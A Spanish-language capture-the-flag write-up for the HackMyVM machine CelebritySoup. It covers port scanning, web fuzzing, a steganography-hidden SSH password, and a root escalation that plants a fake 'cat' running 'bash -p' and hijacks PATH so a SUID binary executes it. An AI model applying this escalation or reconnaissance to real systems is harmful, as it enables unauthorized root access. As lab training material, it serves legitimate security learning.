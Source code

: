 ```yaml
---
layout      : post
title       : "CelebritySoup - HackMyVm"
author      : elc4br4
image       : assets/images/HMV/Celebritysoup-HackMyVM/Celebritysoup.webp
category    : [ HackMyVM ]
tags        : [ Linux ]
---
```


Esta vez tenemos la máquina CelebritySoup nivel Easy creada por ShellDredd, en la que tendremos un poco de todo, una "larga" enumeración web con cositas muy chulas en cuanto al diseño del CTF, un poco de stego y una escalada bien sencilla tirando de un SUID y jugando un poco con la variable PATH.

Canal de ShellDredd Informática --> [https://www.youtube.com/c/ShellDreddInform%C3%A1tica](https://www.youtube.com/c/ShellDreddInform%C3%A1tica)

# Reconocimiento de Puertos

Comienzo escaneando puertos, como de costumbre.

![](/assets/images/HMV/Celebritysoup-HackMyVM/rustcan.webp)

Escaneo más avanzado de versiones y servicios.

```nmap
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 81:8f:44:53:04:a9:81:ac:f9:3c:4d:6f:c6:bd:61:a7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCWD3FxSjZsVitvLh+T2H7YXugTHxEEmebRbiiJFDt5BFm+hfELTOCeoQLVNd2GaqYr8sD0GGz5lc7npxfE7Q0xSL6y0HCsEQC/zzmfmPwscqYJV+fk6mwAt8lAh537OB00YZtmt/67kUgW3Xd9udhvT1MiLdk0WNRcjtMotgzs9a0gXk1CUEery/w7pa5CxM9F4uFJ0EclV6Dzdga31ZldU2QqkJWgT1XzDZHYjTEA92GN7kES1stUz/PygGU7C6gXzmTuiBHw9kmdAfzG+KyJUAKt2wZaxqWrNWml7Nwy1iHKCTmrlfkFkwxJ+5Glh3SWVRor0x/8fVRLzuSwvXDX
|   256 fb:12:87:90:45:1c:8b:b7:23:86:aa:a7:2f:be:80:f0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOCjQeru+5a3+VqyTvVo6JZC4aIResbTMoq3J+G3EObG+ic+EycPH92coD1VMS8PMxpW8Bp3lHdbQOV8NJ8eYLE=
|   256 d4:e3:36:6c:d0:20:c3:5b:2d:c6:c5:6b:28:be:f6:f6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDOruj2FYzeb0QWZZH4K3dcPk04F0iGMvU8iBK5c2l1R
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Section 9
|_http-favicon: Unknown favicon MD5: DE02BF0388A5D040B61481AE073E693D
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Tenemos lo siguiente:

> Puerto 21 , 22 , 80 abiertos.

Probé si tenía acceso anónimo el servidor ftp pero no, asique supongo que debemos encontrar credenciales válidas.

Procedo a enumerar el servidor web.


# Enumeración Web

Abro el navegador y accedo al servidor web.

![](/assets/images/HMV/Celebritysoup-HackMyVM/web1.webp)

De primeras no hay nada, y en el código fuente tampoco veo nada que me pueda servir, de forma que procedo a enumerar rutas en el servidor.

![](/assets/images/HMV/Celebritysoup-HackMyVM/feroxbuster.webp)

Como se puede ver, hay varias rutas, pero la que más me llama la atención es el archivo robots.txt, asique voy a ver que tenemos.

![](/assets/images/HMV/Celebritysoup-HackMyVM/robots.webp)

Parece que tenemos varios archivos con extensión html, asique los reviso uno a uno, y a simple vista no parece nada importante, pero revisando el código fuente de los archivos sector(1-10) veo algo raro.

En cada archivo tenemos este patrón que se repite en los demás.

```secret
<div secret1="pu"></div>
<div secret2="pp"></div>
<div secret3="et"></div>
<div secret4="ma"></div>
<div secret5="st"></div>
<div secret6="er"></div>
```
Si unimos estas pistas, encontramos la palabra puppetmaster que podría ser un usuario o una contraseña, pero aún no lo sabemos a ciencia cierta.

En el archivo sector9.html encuentro una especie de artículo

![](/assets/images/HMV/Celebritysoup-HackMyVM/web2.webp)

Al ver que el archivo sector9.html es diferente a los más, pienso que dentro ha de haber una ruta o alguna pista que podría ayudarme a continuar.

Asique voy a probar a crear un diccionario con el contenido de la página usando la herramienta cewl.

> `cewl --with-numbers http://192.168.0.15/sector9.html > diccionario_web.txt`

Una vez generado el diccionario voy a fuzzear en busca de rutas.

![](/assets/images/HMV/Celebritysoup-HackMyVM/feroxbuster2.webp)

Tenemos la ruta project2501.html, asique vamos a ver que hay.

![](/assets/images/HMV/Celebritysoup-HackMyVM/project2501.png)

Puede que la información este escondida dentro de la imágen, pero no me deja descargarla, asique buscando en el código fuente encuentro una fuga en el código web, modding.css

`<link href="modding.css" rel="stylesheet">`

Y encontramos la ruta de la imágen, que ya la podremos descargar y analizarla.

![](/assets/images/HMV/Celebritysoup-HackMyVM/css.webp)

La descargo y analizo con exiftool.

![](/assets/images/HMV/Celebritysoup-HackMyVM/exiftool.webp)

Pero no hay nada oculto... Aunque estoy seguro que hay algo en la imágen, ya que no hay otro hilo del que tirar.

![](/assets/images/HMV/Celebritysoup-HackMyVM/sector10.gif)

A través de una herramienta de esteganografía online adjunto la imágen y me da una cadena encodeada en binario... podría ser un mensaje...

```binary
0110010001101001011001110110100101110100011000010110110000101101011000100111001001100001011010010110111000101101011010010111001100101101011101000111001001100001011011100111001101100011011001010110111001100100011010010110111001100111
```

Lo desencripto:

![](/assets/images/HMV/Celebritysoup-HackMyVM/binary.webp)

Parece una contraseña, alomejor podemos conectarnos a través de ssh usando el usuario puppetmaster y la contraseña digital-brain-is-transcending

![](/assets/images/HMV/Celebritysoup-HackMyVM/ssh.webp)

Hemos tenido userte, las credenciales eran válidas.

Ahora ya puedo leer la flag user.txt, por lo tanto ya pasamos a la parte de escalar privilegios.

![](/assets/images/HMV/Celebritysoup-HackMyVM/user.webp)

# Escalada de Privilegios

Como de costumbre para escalar privilegios primero debemos enumerar para encontrares posibles vectores de escalada.

Antes de nada tenemos en el directorio donde se aloja la flag user.txt un archivo llamado `systeminfo`.

> `-rwsr-xr-x 1 root         root         16712 ene  6  2021 systeminfo`

El archivo systeminfo tiene privilegios SUID, asique voy a ver que contiene este archivo en su interior.

![](/assets/images/HMV/Celebritysoup-HackMyVM/escalada1.webp)

Si nos fijamos tenemos rutas absolutas, excepto en la línea `cat /etc/*release` donde el cat en vez de definirse como /usr/bin/cat se define como cat solamente.

Podríamos aprovecharnos del cat para escalar privilegios, creando un archivo llamado cat añadiéndole cierto contenido en su interior, después lo colocamos en la variable de entorno para que al ejecutar el systeminfo ejecute nuestro cat modificado, por lo tanto ejecute el contenido de su interior.

Lo mostaré paso por paso y lo entenderéis mejor:
 
> Creamos el archivo cat 

`puppetmaster@CelebritySoup:~$ touch cat`

> Añadimos el contenido dentro del archivo

```bash
puppetmaster@CelebritySoup:~$ echo "bash -p" > cat
puppetmaster@CelebritySoup:~$ cat cat
bash -p
```
> Le asiganos permisos de ejecución

`chmod +x cat`

> Lo añadimos la ruta a la variable de entorno PATH

`export PATH=/home/puppetmaster/:$PATH`

> Ejecutamos el archivo systeminfo

```bash
puppetmaster@CelebritySoup:~$ ./systeminfo 


root
uid=0(root) gid=1000(puppetmaster) grupos=1000(puppetmaster),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
CelebritySoup
```

![](/assets/images/HMV/Celebritysoup-HackMyVM/root.webp)

Y ya podemos leer la flag root

![](/assets/images/HMV/Celebritysoup-HackMyVM/root1.webp)

